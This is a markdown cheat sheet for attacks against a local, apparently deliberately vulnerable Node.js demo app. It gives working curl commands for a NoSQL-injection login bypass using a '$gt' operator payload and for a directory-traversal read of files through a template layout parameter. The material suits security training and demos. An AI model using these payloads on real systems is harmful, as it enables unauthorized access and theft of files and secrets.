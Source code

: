 # Attack Reference Guide - Quick Cheat Sheet

## Launch Interactive Menu

```bash
cd /Users/bigmac/Documents/workspace/agbonjaru/personal/projects/nodejs-goof
./attack-menu.sh
```

---

## Available Attacks (10 Categories)

### 1. **NoSQL Injection** - Authentication Bypass (CWE-89)
- **Severity**: Critical (CVSS 9.8)
- **Exploits**: MongoDB query injection
- **Impact**: Complete authentication bypass
- **Demo Steps**:
  1. Failed login with wrong password (401)
  2. Bypass with `{"$gt": ""}` operator (302 redirect)
  3. Blind injection without knowing username

**Manual Command**:
```bash
curl -X POST http://localhost:3001/login -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'
```

---

### 2. **Directory Traversal** - Path Injection (CWE-22)
- **Severity**: High (CVSS 7.5)
- **Exploits**: Unvalidated `layout` parameter in Handlebars
- **Impact**: Read arbitrary files (config, source code, secrets)
- **Demo Steps**:
  1. Authenticate via NoSQL injection
  2. Inject `./../package.json` in layout parameter
  3. View extracted file content

**Manual Command**:
```bash
# Step 1: Login
curl -X POST http://localhost:3001/login -c /tmp/cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{"username": "admin@snyk.io", "password": {"$gt": ""}}'

# Step 2: Exploit
curl -X POST http://localhost:3001/account_details -b /tmp/cookies.txt \
  -H 'Content-Type: application/json' \
  -d '{"email": "admin@snyk.io", "firstname": "admin", "lastname": "admin",
       "country": "IL", "phone": "+972551234123", "layout": "./../package.json"}'
```

---